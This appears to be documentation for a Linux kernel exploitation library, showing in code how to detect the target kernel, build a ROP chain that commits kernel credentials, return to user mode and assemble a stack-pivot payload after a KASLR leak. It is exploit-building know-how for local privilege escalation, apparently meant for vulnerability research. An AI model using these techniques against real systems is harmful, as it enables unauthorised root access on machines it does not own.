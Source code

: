 # How to get started

### Creating a Database

1. Include the **target_db** in the exploit. `INCBIN` creates a read-only section in the binary with the file contents.

```c++
INCBIN(target_db, "target_db.kpwn");
```

2. Initialize **TargetDb** and detect which target it's being run on.

```
TargetDb kpwn_db(target_db, target_db_size);
auto target = kpwn_db.AutoDetectTarget();
printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

```
Payload payload(1024);
```

2. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

```
RopChain rop(target, kaslr_base);
rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
RopUtils::Ret2Usr(rop, (void*)win);
```

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

```
PayloadBuilder builder(target.pivots, kaslr_base);
```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

```
uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
builder.AddPayload(payload, Register::RSI, rip_off);
```

3. Add the `RopChain` to the builder.

```
builder.AddRopChain(rop);
```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

```
if(!builder.Build()) 
    exit(-1); 
```

Once built, the `payload` object contains the complete, ready-to-use exploit payload.
